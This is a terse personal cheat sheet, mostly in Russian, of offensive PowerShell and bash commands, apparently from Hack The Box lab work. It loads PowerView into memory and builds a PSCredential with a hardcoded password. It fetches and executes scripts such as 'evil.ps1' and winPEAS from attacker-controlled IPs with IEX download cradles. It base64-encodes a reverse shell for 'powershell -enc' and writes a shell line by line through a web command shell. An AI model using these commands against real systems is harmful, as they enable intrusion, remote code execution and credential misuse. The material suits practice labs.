 # POWER

https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/

Запустить повер виев

. .\PowerView.ps1

загрузиь повервью в память

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/PowerView.ps1')

Поскольку у нас нет оболочки для JDgodd, мы можем использовать PowerShell.
 System.Management.Automation.PSCredential для хранения учетных данных в нашей текущей оболочке.

 $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd',
$SecPassword)

# Кодирование скриптов POwerShell
--Кодирование в base64

  $Shell=Get-Content -raw ./Invoke-PowerShellIcmp.ps1
  
  $bytes2 = [System.Text.Encoding]::Unicode.GetBytes($Shell)

  $Encoded2 | out-file icmp.ps1.b64

--Декодирование обратно

  $Decode =[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($Encoded2))
  
# Загрузка скрипат построчно

!/bin/bash
export IFS=$'\n'
for line in $(cat tmp.ps1.b64);
do
max="echo ${line} >> C:\Temp\max_shell.ps1"
curl -v -G -X GET 'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx' --data-urlencode "xcmd=$max"
done


-------------------------------------
cat rev.ps1 |iconv -t UTF-16LE | base64 -w 0 (вывод)

powershell -enc (вывод)

# Восстаовление корзины

Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter {ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *

# Загрузка скрипта и выполнение

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/evil.ps1')

echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6:8000/winPEAS.ps1') | powershell -noprofile 

iwr -uri http://10.10.14.9/test -outfile test

# Доступ к ресурсу SMB

Get-Content //10.10.14.4/file
